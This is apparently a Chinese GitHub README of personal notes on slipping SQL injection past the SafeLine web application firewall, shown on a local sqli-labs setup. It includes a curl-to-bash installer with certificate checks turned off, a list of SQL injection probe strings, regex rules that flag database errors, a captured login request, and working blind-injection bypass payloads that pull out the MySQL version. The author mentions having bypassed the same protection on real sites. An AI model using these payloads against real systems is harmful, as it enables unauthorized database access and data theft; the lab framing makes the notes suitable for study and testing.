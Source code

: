# 声明 
> 这只是主包个人一些学习笔记，这只是主包个人的理解，这只是主包个人的理解，这只是主包个人的理解，纯个人，纯个人，纯个人，没有任何其他意思，只是分享下自己的笔记，不喜勿喷，如侵权必删,谢谢!😭
# 前言 
之前帮朋友绕过了，现在自己遇到了同样的站了，记录一下，由于主包不会写这种东西，哪里不对的地方欢迎批评指正👿👿  
由于某些不可控因素，这里选择本地绕过做演示 🥵

## 环境准备 safeline && sqli-labs
由于主包已经装好了，这里就不多做赘述，密码那里最好记录一下，不然就会像主包一样只能重置密码 🤡  
```
bash -c "$(curl -fsSLk https://waf-ce.chaitin.cn/release/latest/manager.sh)"
git clone https://github.com/c0ny1/vulstudy.git
docker start $(docker ps -a -q)
```
![alt text](image.png)

## 启发式探索 smart-sqli && hae
这里主包当然是配合插件使用，然后就是联动hae  
  **smart-sqli 这是主包最常用的一个，当然可以补充的太多了，有更好的欢迎师傅们补充**  
```
0
åååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååååå
#
'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
'+'
'%2b'
'-'
'*'
'/1--+
'%1--+
'
''
%27
"
""
)
)%23
')
'))
)'
))'
")
'%
"%
*
%dF')*'\"(
%Df")%\*'"(
!0
!false
exp()
exP()
`exp`()
exp.exp()
r.id
0exp()
```
**hae 师傅们可以自己加进规则，和自行补充其他规则，主包的只做参考**
```
(base--Mysql)
SQL syntax.*?MySQL
com.mysql.jdbc
MySQLSyntaxErrorException
valid MySQL result
your MySQL server version
MySqlClient
MySqlException
mysqli_num_rows() expects parameter
Duplicate entry .* for key 'group_key'
Subquery returns more
-----------------------------------------------------------
(base--Mssql)
Microsoft SQL Native Client error
Microsoft OLE DB Provider for SQL Server
ODBC SQL Server Driver
SQLServer JDBC Driver
macromedia.jdbc.sqlserver
com.microsoft.sqlserver.jdbc
转换成数据类型 int 时失败
------------------------------------------------------------
(base--Oracle)
ORA-\d{5}
Oracle error
nested exception is dm.jdbc.driver.DMException
------------------------------------------------------------
(base-Postgresql)
valid PostgreSQL result
PG::SyntaxError:
org.postgresql.jdbc
PSQLException
------------------------------------------------------------
(base--Access)
Microsoft Access
Access Database Engine
ODBC Microsoft Access
------------------------------------------------------------
(base--综合)
Unknown column '1or' in 'where clause'     
Unknown column '3' in 'order clause'        
XPATH syntax error                           
DOUBLE value is out of range in             
different number of columns
SQL syntax
java.sql.SQLSyntaxErrorException
Error SQL:
附近有语法错误
java.sql.SQLException
引号不完整
SQL Execution Error!
com.jnetdirect.jsql
DB2 SQL error
SQLite error
Sybase message
SybSQLException
SqlException exception
Unclosed quotation mark
ERROR: invalid input syntax for type
```
## 实战环节 attack && bypass
**模式切换**  
首先值得注意的是，safeline 个人版默认开启的防护模式是 "平衡防护"  
需要自定义配置为 "高强度防护" like this ⬇⬇⬇⬇
![alt text](image-1.png)
根据主包的实战经验，一般来说盲注才是最多情况，联合和报错注入最后也要用到盲注的相关语句，所以直接上盲注关
![alt text](image-2.png)
ok啊，也是直接抓到包了，哦不是抓后台的包，那没事了  
```
POST /Less-15/ HTTP/1.1
Host: {your-ip}
Content-Length: 39
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: keep-alive

uname=admin&passwd=123456&submit=Submit
```
### attack
首先看看smart-sqli 的效果   
![finish-smart-sqli](image-3.png)
| payload | response_code | length | hae  | images |
| --- | --- | --- | --- | --- |
| 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c | 403 | 15820 | safeline-waf | ![safe-line](image-6.png) |
| '%1--+ | 200 | 1642 |  | ![suceess](image-5.png) |
| 0 | 200 | 1596 |  | ![false](image-4.png) |

也是看到了确实存在注入啊，到了这里主包就只能给个最基本的payload了，当然都是可以出具体字符的，后面的就靠师傅们自己研究了  
### bypass 
**数据库版本 version**
```
false'||`char_length`(@@global.`version`)!=22||'
```
![success](image-7.png)
```
false'||`char_length`(@@global.`version`)!=23||'
```
![false](image-8.png)
**当前用户 user**
```
待定
```

**当前数据库 database**
```
待定
```
# 后续
> ok啊，这次分享就到这里了  
喜欢的师傅们记得点个赞，哦这里是star 求求惹！！ 😘😅